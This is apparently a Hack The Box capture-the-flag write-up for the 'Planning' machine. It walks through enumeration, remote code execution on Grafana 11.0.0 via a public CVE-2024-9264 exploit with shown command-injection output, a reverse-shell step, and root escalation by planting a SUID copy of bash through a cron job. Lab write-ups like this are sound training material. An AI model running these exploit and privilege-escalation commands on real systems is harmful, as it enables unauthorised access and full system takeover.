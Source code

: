 ```yaml
---
title: Planning
published: 2025-09-04
description: 'HTB Planning is an easy Linux machine that highlights an RCE on Grafana, a container escape, and privilege escalation via a cronjobs service to obtain system privileges.'
image: './Planning-images/logo.png'
tags: ['Grafana','docker','Crontab','localhost']
category: 'HackTheBox'
draft: false 
---
```


## Enumeration
> - Lets use nmap :
```bash
# Nmap 7.94SVN scan initiated Thu Sep  4 09:07:56 2025 as: nmap -sCV -A -T4 -o nmap.txt 10.10.11.68
Nmap scan report for planning.htb (10.10.11.68)
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Edukate - Online Education Website
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep  4 09:08:18 2025 -- 1 IP address (1 host up) scanned in 21.91 seconds
```
![logo](./Planning-images/80.png)

> - Now i can use brute force subdomain with `gobuster vhost` i found a new subdomain:
```bash
gobuster vhost -u http://planning.htb -w /usr/share/SecLists/Discovery/DNS/combined_subdomains.txt --append-domain -t 50                            ✔   
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://planning.htb
[+] Method:          GET
[+] Threads:         50
[+] Wordlist:        /usr/share/SecLists/Discovery/DNS/combined_subdomains.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: grafana.planning.htb Status: 302 [Size: 29] [--> /login]
```

![Grafana](./Planning-images/grafana.png)

## Exploitation 

> - i now i use `whatweb` for show more information about my link .
> - i found `Grafana 11.0.0`.
> - So i can search for CVE or Exploit about this Grafana Version.
> - After more searching i found this [CVE-2024-9264](https://github.com/nollium/CVE-2024-9264?tab=readme-ov-file)

> - Just run this command :
```bash
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c whoami http://grafana.planning.htb
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: whoami
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('whoami >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
root
```
> - its Working , but i have 1 Prblm i wont to connect in this server , so after more another searching i found other [CVE-2024-9264-RCE-Exploit](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit) for use reverse shell .
> - Just type thsi command & open a listener :

![reverse shell](./Planning-images/revrshell.png)

- Great!!!
- But this machine just for `Grafana` not o user owner 
- i run tool `linpeas` for show how i can open as privilege but i found something hhhhh

![linpeas](./Planning-images/linpeas.png)

## SSH

> - For open ssh as user `enzo` , i found user flag but now i wont to be a ROOT , how i can do that !!!!
> - after more searching i found thsi path `/opt/crontabs/crontab.db` , thsi file has a Password of zip File
> - and now i type `netstat tupln` i found port `8000` is open now i can do this
> - i login with user enzo as localhost like this cmd : `ssh enzo@grafana.planning.htb -L 8000:127.0.0.1:8000`
> - Now let check `localhost:8000` in browser
> - I type my credentials user & password , bytheway password is the same password Zip File

![crontab](./Planning-images/crontb.png)

## Privilege Escalation

- Now for Privsec i wont to create new crontab and put this command : `cp /bin/bash /tmp/bash && chmod u+s /tmp/bash`
- Afetr that click run Now & Go in ssh `/tmp/` you can show new file name is bash 
- Finaly just type `/tmp/bash -p` for reboot shell as File bash in tmp folder

```bash
enzo@planning:~$ cd /tmp
enzo@planning:/tmp$ ls

4KhnrhUdWCfowQmT.stderr                                                         systemd-private-9483ebeaebd64fab82216ec7e1206997-systemd-resolved.service-XFidJF
4KhnrhUdWCfowQmT.stdout                                                         systemd-private-9483ebeaebd64fab82216ec7e1206997-systemd-timesyncd.service-9iAmlh
bash                                                                            systemd-private-9483ebeaebd64fab82216ec7e1206997-upower.service-bDIWIx
linpeas.sh                                                                      tmux-1000
systemd-private-9483ebeaebd64fab82216ec7e1206997-fwupd.service-UDicPX           vmware-root_827-4256676229
systemd-private-9483ebeaebd64fab82216ec7e1206997-ModemManager.service-2rmc8r    YvZsUUfEXayH6lLj.stderr
systemd-private-9483ebeaebd64fab82216ec7e1206997-polkit.service-xCC45i          YvZsUUfEXayH6lLj.stdout
systemd-private-9483ebeaebd64fab82216ec7e1206997-systemd-logind.service-qcdKWG

enzo@planning:/tmp$ /tmp/bash -p
bash-5.2# whoami
root

```

